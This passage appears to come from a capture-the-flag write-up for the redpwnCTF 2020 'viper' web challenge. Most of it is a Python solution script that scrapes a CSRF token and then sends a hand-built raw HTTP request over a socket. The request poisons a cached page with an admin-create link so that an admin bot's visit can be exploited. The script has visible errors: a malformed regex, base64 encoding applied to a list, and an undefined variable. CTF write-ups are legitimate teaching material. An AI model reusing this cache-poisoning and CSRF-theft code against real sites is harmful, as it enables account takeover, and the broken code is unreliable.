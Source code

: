 ```py
print(viper.text)
viper_page = requests.get(address+"/analytics?ip_address=__csrftoken__admin_account")
csrf_token = re.findall("site (\*d) times.", viper_page.text)
# Encode in base64
csrf_token = b64encode(csrf_token)



payload = ""
payload += "GET /viper/"+viper_id+" HTTP/1.1\r\nHost: 2020.redpwnc.tf:31291\\admin\\create?x=<!--&viperId="+ADMIN_VIPER+"&csrfToken="+csrf+"#-->\r\nAccept: */*\r\nCookie: connect.sid="+session_id+"\r\n\r\n"

poison = socket.socket()
poison.connect(("2020.redpwnc.tf", 31291))
poison.sendall(payload.encode())
poison.close()


viper = requests.get("http://2020.redpwnc.tf:31291/viper/"+viper_id, cookies=cookies)

print("URL to admin:")
print(address+"/viper/"+viper_id)



input("\n fetching... \n press ENTER to load cached page, once the admin has visited the URL.")
viper = requests.get("http://2020.redpwnc.tf:31291/viper/"+ADMIN_VIPER, cookies=cookies)
print(viper.text)

```


{{< image src="/images/REDPWN2020_ViperFlag.png" alt="Login" position="center" style="border-radius: 8px;" >}}

Jam